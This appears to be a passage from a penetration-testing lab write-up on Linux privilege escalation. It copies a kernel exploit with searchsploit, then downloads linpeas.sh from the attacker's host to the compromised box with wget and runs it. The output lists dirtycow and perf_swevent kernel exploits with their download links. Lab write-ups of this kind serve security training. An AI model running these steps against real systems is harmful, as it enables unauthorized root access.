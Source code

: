 ```bash
$ searchsploit -m 33589.c
  Exploit: Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escalation (3)
      URL: https://www.exploit-db.com/exploits/33589
     Path: /usr/share/exploitdb/exploits/linux_x86-64/local/33589.c
    Codes: CVE-2013-2094, OSVDB-93361
 Verified: True
File Type: C source, ASCII text
Copied to: /home/x7331/web200/box/CVE-2014-6271/33589.c
```

Transferring and compiling the exploit to the box as well as transferring the compiled exploit itself does not seem to work. Let's use `linpeas.sh` to properly enumerate the system.

{% code overflow="wrap" %}
```bash
www-data@ubuntu:/tmp$ wget http://192.168.45.159:8888/linpeas.sh
--2024-09-04 23:54:46--  http://192.168.45.159:8888/linpeas.sh
Connecting to 192.168.45.159:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 862777 (843K) [text/x-sh]
Saving to: `linpeas.sh'

100%[================================================>] 862,777     1.80M/s   in 0.5s

2024-09-04 23:54:46 (1.80 MB/s) - `linpeas.sh' saved [862777/862777]

www-data@ubuntu:/tmp$ chmod +x linpeas.sh
www-data@ubuntu:/tmp$ ./linpeas.sh

<SNIP>
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
<SNIP>
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2013-2094] perf_swevent

   Details: http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/
   Exposure: highly probable
   Tags: RHEL=6,[ ubuntu=12.04{kernel:3.2.0-(23|29)-generic} ],fedora=16{kernel:3.1.0-7.fc16.x86_64},fedora=17{kernel:3.3.4-5.fc17.x86_64},debian=7{kernel:3.2.0-4-amd64}
   Download URL: https://www.exploit-db.com/download/26131
   Comments: No SMEP/SMAP bypass
```